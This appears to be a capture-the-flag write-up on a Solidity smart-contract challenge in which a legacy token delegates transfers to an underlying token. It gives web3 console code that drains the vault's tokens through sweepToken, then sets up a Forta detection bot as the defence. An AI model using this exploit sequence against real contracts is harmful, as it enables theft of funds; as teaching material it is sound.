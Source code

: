 # Find exploit and secure vault

## What can be exploited?
The contract contains two token: DET & LGT. The `transfer` on LGT token uses `delegateTransfer` method of `DelegateERC20` which implement on the underlying DET token.
```
function transfer(address to, uint256 value) public override returns (bool) {
        if (address(delegate) == address(0)) {
            return super.transfer(to, value);
        } else {
            return delegate.delegateTransfer(to, value, msg.sender);
        }
    }
```
We can check this by comparing the storage address of DET token and `call` the function `delegatedFrom` to find what address its calling :
```
// find the CryptoVault address from DoubleEntryPoint
const cryptoVaultAddress = await contract.cryptoVault()
// access "IERC20 public underlying;" variable
await web3.eth.getStorageAt(cryptoVaultAddress, 1)

/*-----------------------------------------*/

// find the LegacyToken address from DoubleEntryPoint
const legacyTokenAddress = await contract.delegatedFrom()
// call the getter of "DelegateERC20 public delegate;"
await web3.eth.call({
  from: player,
  to: legacyTokenAddress,
  data: '0xc89e4361' // delegate()
})
```
Their output address should be the same. Which means we can indirectly sweep DET token through `transfer` of LGT token by calling `sweepToken` with LGT token address:
```
vault = await contract.cryptoVault()

// Check initial balance (100 DET)
await contract.balanceOf(vault).then(v => v.toString()) // '100000000000000000000'

legacyToken = await contract.delegatedFrom()

// sweepTokens(..) function call data
sweepSig = web3.eth.abi.encodeFunctionCall({
    name: 'sweepToken',
    type: 'function',
    inputs: [{name: 'token', type: 'address'}]
}, [legacyToken])

// Send exploit transaction
await web3.eth.sendTransaction({ from: player, to: vault, data: sweepSig })

// Check balance (0 DET)
await contract.balanceOf(vault).then(v => v.toString()) 
// '0'
```

## How to secure it with Forta?
Through this tutorial, we can write a Forta bot contract that raise an alert if the `origSender` param is CryptoVault's address. 

We deploy the Forta bot contract to "Vault" address:
```
// Get vault contract address
vault = await contract.cryptoVault()

```
Once deployed, we set the bot in console terminal:
```
// FortaDetectionBot
botAddy = '<YOUR_FORTA_BOT_CONTRACT_ADDRESS>'

// Forta contract address
forta = await contract.forta()

// set bot detection contract function call
setBotSig = web3.eth.abi.encodeFunctionCall({
    name: 'setDetectionBot',
    type: 'function',
    inputs: [
        { type: 'address', name: 'detectionBotAddress' }
    ]
}, [botAddy])

// Send the transaction setting the bot
await web3.eth.sendTransaction({from: player, to: forta, data: setBotSig })
```